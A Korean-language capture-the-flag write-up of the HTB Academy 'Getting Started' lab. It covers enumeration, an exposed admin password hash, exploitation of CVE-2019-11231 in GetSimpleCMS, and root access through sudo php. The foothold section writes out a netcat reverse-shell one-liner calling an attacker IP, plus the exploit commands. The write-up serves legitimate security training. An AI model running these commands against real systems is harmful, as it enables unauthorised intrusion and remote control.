









## 개요

HTB Academy Getting Started 모듈의 마지막 실습 머신이다. 가이드 없이 스스로 풀어야 하는 Knowledge Check 형식으로, 다음 두 가지가 목표다.

- **User flag** 획득
- **Root flag** 획득

사용한 주요 기법:
- Gobuster 디렉터리 열거
- GetSimpleCMS 3.3.15 인증 우회 + 임의 파일 업로드 (CVE-2019-11231)
- 리버스 셸 획득
- PHP sudo 권한상승 (GTFOBins)

---

## 1. 열거 (Enumeration)

### Nmap 스캔

```bash
nmap -sV --open -Pn -n <TARGET_IP>

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```


열린 포트: **22 (SSH)**, **80 (HTTP)**

### Gobuster 디렉터리 열거

```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/seclists/Discovery/Web-Content/common.txt
```



주목할 디렉터리:
- `/admin` → 관리자 페이지
- `/data` → 데이터 디렉터리 (디렉터리 리스팅 활성화)
- `/theme` → 테마 디렉터리 (웹쉘 업로드 후 접근 경로)

---

## 2. 자격증명 획득

`/data` 디렉터리 리스팅이 활성화되어 있어 내부를 탐색할 수 있었다.

```
http://<TARGET_IP>/data/users/admin.xml
```



XML 파일에서 다음 정보를 확인했다:

- **사용자명:** `admin`
- **비밀번호 해시:** `d033e22ae348aeb5660fc2140aec35850c4da997`

해시 길이가 40자이므로 SHA-1임을 알 수 있다. 크래킹을 시도했다.

```bash
echo -n "admin" | sha1sum
# d033e22ae348aeb5660fc2140aec35850c4da997
```

비밀번호가 **`admin`** 임을 확인했다. 어드민 패널에 `admin/admin`으로 로그인 성공.



---

## 3. 취약점 분석

어드민 패널 Settings에서 **GetSimpleCMS 버전 3.3.15** 를 확인했다.



해당 버전을 검색하자 **CVE-2019-11231** 이 나왔다.



**CVE-2019-11231** 요약:
- GetSimpleCMS 3.3.15 이하 버전의 `theme-edit.php`에서 입력값 검증 미흡
- 인증 우회 후 임의 PHP 파일 업로드 가능
- 업로드된 파일을 `/theme/` 경로에서 실행 가능 → **RCE**

공개 PoC: [CVE-2019-11231-PoC](https://github.com/akincibor/CVE-2019-11231-PoC)

---

## 4. 초기 발판 확보 (Initial Foothold)

### 리버스 셸 스크립트 업로드

앞서 확인한 CVE-2019-11231 공개 PoC(`exploit.py`)는 명령어를 인자로 받아 타겟에서 바로 실행해준다. 이를 이용해 별도 HTTP 서버 없이 타겟에 직접 `shell.sh`를 작성했다.

```bash
# 공격자 → exploit.py를 통해 타겟에서 실행
┌──(netzy㉿kali)-[~/module2/exploit/CVE-2019-11231-PoC]
└─$ python3 exploit.py 10.129.42.249/admin/ 'echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 7777 >/tmp/f" > shell.sh'
```

파일이 제대로 올라갔는지 확인했다.

```bash
# 공격자 → exploit.py를 통해 타겟에서 실행
┌──(netzy㉿kali)-[~/module2/exploit/CVE-2019-11231-PoC]
└─$ python3 exploit.py 10.129.42.249/admin/ 'ls -alh'
```

```
# 타겟 실행 결과
-rwxr-xr-x 1 www-data www-data   30 shell.php
-rw-r--r-- 1 www-data www-data   80 shell.sh
```

실행 권한을 부여했다.

```bash
# 공격자 → exploit.py를 통해 타겟에서 실행
┌──(netzy㉿kali)-[~/module2/exploit/CVE-2019-11231-PoC]
└─$ python3 exploit.py 10.129.42.249/admin/ 'chmod +x shell.sh'
```

### nc 리스너 준비

```bash
# 공격자
┌──(netzy㉿kali)-[~]
└─$ nc -lnvp 7777
```

### 리버스 셸 실행

```bash
# 공격자 → exploit.py를 통해 타겟에서 실행
┌──(netzy㉿kali)-[~/module2/exploit/CVE-2019-11231-PoC]
└─$ python3 exploit.py 10.129.42.249/admin/ './shell.sh'
```

리스너 쪽에서 연결이 들어왔다.

```
# 공격자 (리스너)
listening on [any] 7777 ...
connect to [10.10.14.244] from (UNKNOWN) [10.129.42.249] 45912
/bin/sh: 0: can't access tty; job control turned off
$
```

### TTY 업그레이드

셸은 획득했지만 TTY가 없어 불안정한 상태다. 타겟에 `python`이 설치되어 있는지 확인했다.

```bash
# 타겟
$ python --version
/bin/sh: 1: python: not found
$ python3 --version
Python 3.8.5
```

`python3`으로 TTY를 업그레이드했다.

```bash
# 타겟
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@gettingstarted:/var/www/html/themes$
```

### User flag 획득

```bash
# 타겟
www-data@gettingstarted:~$ find / -name user.txt 2>/dev/null
www-data@gettingstarted:~$ cat /home/mrb3n/user.txt
```



---

## 5. 권한 상승 (Privilege Escalation)

### sudo 권한 확인

```bash
sudo -l
```



```
(ALL : ALL) NOPASSWD: /usr/bin/php
```

`www-data` 유저가 비밀번호 없이 `php`를 root 권한으로 실행할 수 있다.

### GTFOBins로 익스플로잇

[GTFOBins - php](https://gtfobins.github.io/gtfobins/php/) 에서 sudo php 익스플로잇 방법을 확인했다.



```bash
sudo php -r 'system("/bin/sh -i");'
```

### Root flag 획득

```bash
find / -name root.txt 2>/dev/null
cat /root/root.txt
```



---

## 6. 공격 흐름 요약

```
Nmap (22, 80 포트 확인)
    ↓
Gobuster (디렉터리 열거)
    ↓
/data/users/admin.xml (SHA-1 해시 발견)
    ↓
해시 크래킹 → admin/admin
    ↓
GetSimpleCMS 3.3.15 확인
    ↓
CVE-2019-11231 PoC 실행 → 리버스 셸
    ↓
User flag 획득
    ↓
sudo -l → php NOPASSWD 발견
    ↓
GTFOBins → sudo php → root
    ↓
Root flag 획득
```

---

## 7. 배운 점

- **디렉터리 리스팅 활성화**는 단순해 보여도 자격증명 노출로 이어질 수 있다. 이번처럼 `data/users/admin.xml`이 그대로 노출된 경우가 실제로도 발생한다.
- **SHA-1 해시**는 단방향 암호화지만, 평범한 비밀번호는 `hashcat`이나 온라인 DB(crackstation 등)로 쉽게 크래킹된다. 비밀번호 자체의 복잡도가 중요하다.
- **GTFOBins**는 sudo 권한 있는 바이너리를 찾았을 때 즉시 참고해야 할 레퍼런스다.
- **cewl**로 사이트를 크롤링해서 워드리스트를 만드는 방법도 유효하다. 이번 머신에서도 `gettingstarted`, `GetSimple` 같은 단어들이 크롤링됐는데, 비밀번호가 더 복잡했다면 유용했을 것이다.
